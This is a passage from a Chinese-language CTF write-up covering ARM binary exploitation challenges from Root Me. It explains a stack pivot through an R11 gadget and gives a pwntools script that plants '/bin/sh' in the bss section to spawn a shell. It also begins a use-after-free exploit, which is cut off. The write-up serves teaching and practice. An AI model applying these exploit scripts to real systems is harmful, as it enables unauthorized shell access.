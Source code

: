 ```
io.send(payload)
io.interactive()

```

### Root Me : stack_spraying

我是写了个栈迁移（`stack pivot`），其实方法有很多。

 

观察到下面这个`gadget`：

```
.text:00010680  SUB  SP, R11, #4
.text:00010684  POP  {R11,PC}

```

很容易想到，可以通过控制`R11`寄存器进行栈迁移。

 

这里也用到了上面`InCTF-2018 wARMup`一题所利用的方式，先将`gadget`读到了`bss`段上，然后再栈迁移过去。

 

需要注意一些细节，比如迁移到的地址需要在`bss`段的基础上抬高一段距离等等。

```
from pwn import *
context(os = 'linux', arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 28651)
elf = ELF("./pwn")
 
write_addr = elf.bss() + 0x300
payload = b'a'*0x40 + p32(write_addr + 0x44) + p32(0x10658)
io.sendline(payload)
 
payload = b'deadbeaf' + p32(write_addr + 0x20) + p32(0x105a0) + p32(write_addr + 0x38)
payload = payload.ljust(0x38, b'\x00') + b'/bin/sh\x00'
payload += p32(write_addr + 12) + p32(0x10680)
io.sendline(payload)
io.interactive()

```

### Root Me : use_after_free

由于`alias`索引没清空，导致了`UAF`，即使是`qemu`模拟的环境，本地和远程环境下固定的`libc_base`也会不一样，因此最好还是先泄露`libc_base`。

```
from pwn import *
context(os = 'linux', arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 28227)
 
elf = ELF("./pwn")
libc = ELF("./lib/libc.so.6")
 
io.sendline("add winmt")
sleep(0.1)
io.sendline("ctf")
sleep(0.1)
io.sendline("pwner")
sleep(0.1)
 
```
